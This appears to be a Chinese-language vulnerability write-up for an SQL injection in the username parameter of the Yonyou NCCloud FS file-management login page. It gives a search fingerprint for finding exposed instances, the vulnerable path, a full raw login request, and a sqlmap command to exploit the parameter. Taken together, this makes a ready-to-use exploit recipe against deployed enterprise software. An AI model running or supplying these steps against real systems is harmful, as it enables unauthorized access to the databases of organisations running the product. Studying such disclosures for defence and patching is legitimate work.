


用友 NCCloud FS文件管理SQL注入¶
漏洞描述¶
用友 NCCloud FS文件管理登录页面对用户名参数没有过滤，存在SQL注入
漏洞影响¶
用友 NCCloud
网络测绘¶
"NCCloud"
漏洞描述¶
登录页面如下
在应用中存在文件服务器管理登录页面
http://xxx.xxx.xxx.xxx/fs/

登录请求包如下
GET /fs/console?username=123&password=%2F7Go4Iv2Xqlml0WjkQvrvzX%2FgBopF8XnfWPUk69fZs0%3D HTTP/1.1
Host: xxx.xxx.xxx.xxx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: JSESSIONID=2CF7A25EE7F77A064A9DA55456B6994D.server; JSESSIONID=0F83D6A0F3D65B8CD4C26DFEE4FCBC3C.server
Connection: close
使用Sqlmap对**username参数** 进行SQL注入
sqlmap -r sql.txt -p username
